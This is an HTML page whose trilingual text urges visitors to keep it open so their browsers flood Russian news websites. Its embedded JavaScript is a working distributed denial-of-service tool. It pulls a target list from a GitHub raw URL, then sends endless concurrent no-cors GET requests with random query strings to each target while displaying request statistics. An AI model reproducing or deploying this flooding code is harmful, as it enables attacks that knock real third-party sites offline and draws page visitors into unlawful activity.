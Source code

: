
<body>
    <h1>Russia MUST BE STOPPED! Help Ukraine WIN!</h1>
    <table width="100%">
        <tr>
            <td width="30%">
                <h3>English version</h3>
                <p>The "official" news in the Russian Federation is mostly fake and we believe it is
                    better to shut them down and let people switch to trustful news.</p>
                <p>Please, just open this page and let it be open on your devices. It will flood the
                    Russian propaganda websites and pose a huge load on their infrastructure.</p>
                <p>Your browser will be slow. It's ok, don't worry and keep it run.</p>
                <p>A small contribution from each of us will save Ukraine 🙏</p>
            </td>
            <td width="30%">
                <h3>Русская версия</h3>
                <p>«Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о
                    событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям
                    переключиться на достоверные новости.</p>
                <p>Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские
                    пропагандистские сайты запросами и создаст огромную нагрузку на их
                    инфраструктуру.</p>
                <p>Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его
                    открытым.</p>
                <p>Небольшой вклад каждого из нас спасет Украину 🙏</p>
            </td>
            <td width="30%">
                <h3>Українська версія</h3>
                <p>«Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про
                    події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися
                    на достовірні новини.</p>
                <p>Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські
                    пропагандистські сайти запитами та створить величезне навантаження на їхню
                    інфраструктуру.</p>
                <p>Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його
                    відкритим.</p>
                <p>Невеликий внесок кожного з нас врятує Україну 🙏</p>
            </td>
        </tr>
    </table>
    <div id="stats"></div>
    <script>
        const ERROR_SYMBOL = "❌";
        const SUCCESS_SYMBOL = "✔️"
        const NO_RESPONSE_SYMBOL = "☠️";
        let targetsURL = 'https://raw.githubusercontent.com/anondevua/anondevua.github.io/main/ddos/targets.txt';
        const updateInterval = 500;
        const fetchTimeout = 1000;
        const CONCURRENCY_LIMIT = 1000;
        var targetStats = {}
        var statsEl = document.getElementById('stats');
        function printStats() {
            for (var [target, stats] of Object.entries(targetStats)) {
                stats.last_responses = stats.last_responses.slice(-20)
            }
            var table_body = Object.entries(targetStats).map(
                ([target, { number_of_requests, number_of_errored_responses, last_responses }]) => 
                '<tr style="background-color:' + 
                    (last_responses.includes(ERROR_SYMBOL) ? '#FF4500' : 
                        last_responses.includes(SUCCESS_SYMBOL) ? '#3CB371' : '#FFEFD5') + 
                '"><td>' + target + 
                '</td><td>' + number_of_requests + 
                '</td><td>' + number_of_errored_responses + 
                '</td><td>' + last_responses.join('') + 
                '</td></tr>'
            ).join('')
            statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th><th>Responses</th></tr></thead><tbody>' + table_body + '</tbody></table>'
        }
        setInterval(printStats, updateInterval);
        var queue = []
        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                method: 'GET',
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }
        async function flood(target) {
            for (var i = 0; ; ++i) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift()
                }
                rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: fetchTimeout })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targetStats[target].number_of_errored_responses++;
                            targetStats[target].last_responses.push(ERROR_SYMBOL);
                        })
                        .then((response) => {
                            if (response) {
                                if (!response.ok) {
                                    targetStats[target].number_of_errored_responses++;
                                    targetStats[target].last_responses.push(NO_RESPONSE_SYMBOL);
                                }
                            }
                            targetStats[target].last_responses.push(SUCCESS_SYMBOL);
                            targetStats[target].number_of_requests++;
                        })
                )
            }
        }
        fetch(targetsURL).then((r) => {
            r.text().then((d) => {
                let targets = d.split('\n');
                targets.forEach((target) => {
                    targetStats[target] = {
                        number_of_requests: 0,
                        number_of_errored_responses: 0,
                        last_responses: []
                    }
                })
                targets.map(flood)
            })
        })
    </script>
</body>
